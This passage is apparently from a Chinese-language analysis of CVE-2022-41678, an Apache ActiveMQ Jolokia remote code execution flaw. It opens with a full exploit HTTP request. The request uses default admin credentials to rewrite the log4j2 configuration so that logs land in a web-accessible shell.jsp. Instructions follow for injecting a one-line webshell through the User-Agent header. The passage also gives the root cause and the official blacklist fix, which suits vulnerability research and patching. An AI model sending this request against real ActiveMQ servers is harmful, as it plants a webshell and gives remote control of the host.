POST /api/jolokia/ HTTP/1.1
Host: 192.168.50.74:8161
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Origin: http://192.168.50.74:8161
Content-Length: 1944
Content-Type: application/json
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close

{"type": "exec", "mbean": "org.apache.logging.log4j2:type=67784306", "operation": "setConfigText", "arguments": ["<?xml version=\"1.0\" encoding=\"UTF-8\"?>\n<Configuration>\n    <Appenders>\n        <Console name=\"Console\" target=\"SYSTEM_OUT\">\n            <PatternLayout pattern=\"%5p | %m%n\"/>\n        </Console>\n        <RollingRandomAccessFile name=\"RollingFile\" fileName=\"${sys:activemq.data}/../webapps/admin/shell.jsp\" \n            filePattern=\"${sys:activemq.data}/../webapps/admin/shell.jsp.%i\">\n            <PatternLayout pattern=\"%d | %-5p | %m | %c | %t%n%throwable{full}\"/>\n            <Policies>\n                <SizeBasedTriggeringPolicy size=\"1MB\"/>\n            </Policies>\n        </RollingRandomAccessFile>\n        <RollingRandomAccessFile name=\"AuditLog\" fileName=\"${sys:activemq.data}/audit.log\" filePattern=\"${sys:activemq.data}/audit.log.%i\">\n            <PatternLayout pattern=\"%-5p | %m | %t%n\"/>\n            <Policies>\n                <SizeBasedTriggeringPolicy size=\"1MB\"/>\n            </Policies>\n        </RollingRandomAccessFile>\n    </Appenders>\n    <Loggers>\n        <Root level=\"INFO\">\n            <AppenderRef ref=\"Console\"/>\n            <AppenderRef ref=\"RollingFile\"/>\n        </Root>\n        <Logger name=\"org.apache.activemq.spring\" level=\"WARN\"/>\n        <Logger name=\"org.apache.activemq.web.handler\" level=\"WARN\"/>\n        <Logger name=\"org.springframework\" level=\"WARN\"/>\n        <Logger name=\"org.apache.xbean\" level=\"WARN\"/>\n        <Logger name=\"org.eclipse.jetty\" level=\"DEBUG\"/>\n        <Logger name=\"org.apache.activemq.audit\" level=\"INFO\" additivity=\"false\">\n            <AppenderRef ref=\"AuditLog\"/>\n        </Logger>\n        <!-- Uncomment and modify as needed for ActiveMQ logger\n        <Logger name=\"org.apache.activemq\" level=\"DEBUG\"/>\n        -->\n    </Loggers>\n</Configuration>\n", "utf-8"]}
```



再随便访问一次ActiveMQ，将一句话木马插入User-Agent中，即可将其写入日志里



但是这个方法会改变原本ActiveMQ的日志配置


这个漏洞主要还是因为jolokia提供了通过HTTP访问Mbean的桥梁，登陆上ActiveMQ后，就可以通过Mbean的一些方法去写入任意的文件到web目录造成RCE

漏洞的commit：https://github.com/apache/activemq/commit/6120169e5

官方的修复方式为拒绝调用操作出现漏洞的Mbean的方法，相当于黑名单了


参考链接：

代码审计星球

https://l3yx.github.io/2023/11/29/Apache-ActiveMQ-Jolokia-%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E-CVE-2022-41678-%E5%88%86%E6%9E%90/#%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D

https://stackoverflow.com/questions/27707190/activemq-jolokia-api-how-can-i-get-the-full-message-body
